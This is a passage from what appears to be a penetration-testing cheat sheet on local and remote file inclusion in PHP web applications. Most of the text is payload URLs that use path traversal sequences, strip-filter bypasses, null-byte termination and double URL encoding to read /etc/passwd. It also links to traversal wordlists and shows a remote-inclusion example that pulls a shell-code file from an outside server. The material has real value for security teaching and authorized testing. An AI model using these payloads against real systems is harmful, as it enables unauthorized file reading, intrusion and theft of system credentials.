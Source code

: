 Try also to change `/` for `\`\
Try also to add `../../../../../`

A list that uses several techniques to find the file /etc/password (to check if the vulnerability exists) can be found [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)

### **Windows**

Merging several lists I have created:

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt" %}

Try also to change `/` for `\`\
Try also to remove `C:/` and add `../../../../../`

A list that uses several techniques to find the file /boot.ini (to check if the vulnerability exists) can be found [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

### **OS X**

Check the LFI list of linux.

## Basic LFI and bypasses

All the examples are for Local File Inclusion but could be applied to Remote File Inclusion also (page=[http://myserver.com/phpshellcode.txt\\](http://myserver.com/phpshellcode.txt\)/).

```
http://example.com/index.php?page=../../../etc/passwd
```

### traversal sequences stripped non-recursively

```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

### **Null byte (%00)**

Bypass the append more chars at the end of the provided string (bypass of: $\_GET\['param']."php")

```
http://example.com/index.php?page=../../../etc/passwd%00
```

This is **solved since PHP 5.4**

### **Encoding**

You could use non-standard encondings like double URL encode (and others):

```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
